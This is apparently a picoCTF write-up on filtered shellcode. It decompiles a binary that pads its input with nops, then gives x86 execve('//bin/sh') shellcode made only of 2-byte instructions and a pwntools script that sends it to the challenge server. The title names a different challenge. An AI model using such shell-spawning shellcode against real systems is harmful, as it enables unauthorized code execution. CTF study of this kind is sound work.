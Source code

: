 # Writeup - Unsubscriptions are free
Category: Binary Exploitation, Points: 160


## Descpriton

> A program that just runs the code you give it? That seems kinda boring... 

We can connect to it with ` nc mercury.picoctf.net 37853` and a 32-bit binary file is shared.


## Vulnerability

If we decompile the binary through `ghidra` we get two functions inside the file. `main` and `execute`. The `main` function simply reads input character by character but the `execute` function is important.

Code for the `execute` function.

```c
void execute(int shellcode,int len)
{
  uint uVar1;
  undefined4 uStack48;
  undefined auStack44 [8];
  undefined *local_24;
  undefined *local_20;
  uint local_1c;
  uint double_len;
  int local_14;
  uint i;
  int j;
  int start;
  
  uStack48 = 0x8048502;
  if ((shellcode != 0) && (len != 0)) {
    double_len = len * 2;
    local_1c = double_len;
    start = ((double_len + 0x10) / 0x10) * -0x10;
    local_20 = auStack44 + start;
    local_14 = 0;
    for (i = 0; j = local_14, i < double_len; i = i + 1) {
      uVar1 = (uint)((int)i >> 0x1f) >> 0x1e;
      if ((int)((i + uVar1 & 3) - uVar1) < 2) {
        local_14 = local_14 + 1;
        auStack44[i + start] = *(undefined *)(shellcode + j);
      }
      else {
        auStack44[i + start] = 0x90;
      }
    }
    auStack44[double_len + start] = 0xc3;
    local_24 = auStack44 + start;
    *(undefined4 *)(auStack44 + start + -4) = 0x80485cb;
    (*(code *)(auStack44 + start))();
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

This function basically runs shellcode, except if for every 2 bytes of shellcode it replaces the bytes with `0x90`. `0x90` means `nop`. So, if our shellcode is just written as is. It would be replaced with `0x90` for every 2 bytes.

Hence, our shellcode must have instructions that are at most 2 bytes long. 

The main idea is to call `execve("//bin/sh", NULL, NULL)`. But to do this successfully, our shellcode has to have 2-byte instructions. 

We can do this by converting assembly code into shellcode, with `pwntools`. So the main task is to come up with the assembly code to call `execve("//bin/sh", NULL, NULL)`.


## Exploit

The hard part is not calling `//bin/sh` with `execve`. It is writing the shellcode.

For context. `eax, ebx, ecx, edx` are general purpose registers. Each register has a purpose. With respect to the problem at hand `eax` acts like the function invoker. `ebx` is generally the first argument to the function, then `ecx` is second, `edx` is third so on.

To know more about 32-bit calling conventions. Visit this [page](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)

The basic plan:

1. Push `//bin/sh` on to the stack, so that `esp` points to it.
2. Put `//bin/sh` into the `ebx` register and assign `ecx` and `edx` to `0`.
3. `mov al, 11` to `eax`. `11` is the 32-bit syscall for `execve`.
4. `int 0x80` to call `execve` which would have `ebx` as the first argument.

```assembly
; Push //bin/sh on stack (one more slash to avoid null byte)
xor eax, eax
push eax
push `n/sh`
push `//bi`

; Set parameters
mov ebx, esp
xor ecx, ecx
xor edx, edx

; call execve
mov al, 11
int 0x80

; exit
mov al, 1
xor ebx, ebx
int 0x80
```

Now this is quite straightforward except that we need create 2-byte instruction shellcode.

Let's focus on how to trim each instruction to 2-bytes. If we now dig deeper into assembly x86, for each GP register, we have a way the data is stored.

```console
eax -> 00000000 00000000 00000000 00000000 
## If we set eax to something, say 104 -> mov eax, 104
eax -> 00000000 00000000 00000000 00000104
## The equivalent of this -> mov al, 104
## eax is 32 bit or 4 bytes long
## So, if can move the value towards the MSB we would have a 2-byte instruction.
eax -> 00000000 00000000 00000104 00000000
## Now eax contains a 2-byte instruction
```
To make a 2 byte instruction in `eax` we should keep multiplying `eax` into `16 * 16`. Since the binary for `256` is `100000000`, this would shift the value in eax by 8 bits.

We then clear all the general purpose registers, set them to 0. An easy way to do this is 
`xor eax, eax`, `xor ebx, ebx` .. etc.

Here is the final exploit.

```python
## this code is shamelessly copied - the refrence link has the original

import sys

from pwn import *

shellcode = """
/* set all GPRs to 0 */
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* set the lower bit ebx to 16 */
mov bl, 16

/* push nop to esp */
push ecx
nop

/* n/sh */
mov al, 104
mul ebx
mul ebx
mov al, 115
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 110
push eax
nop

/* //bi */
xor eax, eax
mov al, 105
mul ebx
mul ebx
mov al, 98
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 47
push eax
nop

/* syscall to execve (eax ebx) */
xor eax, eax
mov al, 11
mov ebx, esp
int 0x80

/* exit call remove ebx */
mov al, 1
xor ebx, ebx
int 0x80
"""

print(asm(shellcode))

sh = remote("mercury.picoctf.net", "37853") if sys.argv[1] == "remote" else process("./fun")
sh.recvuntil("run:")
sh.sendline(asm(shellcode))
sh.interactive()
```

You should get the flag.


## Reference
[Link](https://github.com/apoirrier/CTFs-writeups/blob/master/PicoCTF/Pwn/filtered-shellcode.md)

